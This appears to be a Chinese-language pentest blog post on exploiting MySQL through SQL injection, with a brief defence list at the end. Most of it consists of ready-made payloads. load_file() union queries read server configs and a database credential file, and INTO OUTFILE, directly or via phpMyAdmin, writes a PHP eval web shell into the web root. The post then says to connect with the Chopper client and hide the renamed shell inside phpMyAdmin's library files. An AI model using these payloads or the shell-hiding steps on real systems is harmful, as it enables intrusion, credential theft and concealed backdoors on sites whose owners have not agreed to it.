 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["load_file","into outfile"]
title = "SQL注入之MySQL函数利用"
topics = ["Pentest"]

+++

### 0x00 load_file()
* 条件:

> ```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径

    > ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  

    > ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件

    > ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile
* 条件：

> ```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法

> 当知道路径时，可以直接用?id=1 union select "<?php @eval($_POST['c']);?>" into outfile("C:/phpStudy/WWW/a.php")

* 其他方法 
    * 登陆phpMyAdmin  
    
    > ```
    use test;  选择数据库为test
    create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
    insert into aaa values("<?php @eval($_POST['c']);?>");   在aaa中插入一条数据<?php @eval($_POST['c']);?>
    select * from aaa into outfile 'C:/phpStudy/WWW/a.php';  将aaa中的数据导出到文件a.php
    ```

    * localhost:80/a.php能访问  
    
    > ```
    drop aaa;  //删除建立的表
    ```

    * 然后菜刀连接  

    > ```
    1. 菜刀连接：  
        C:\phpStudy\WWW\a.php
    2. 更改shell的名字并将shell放在较隐蔽的地方：  
        C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
    ```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件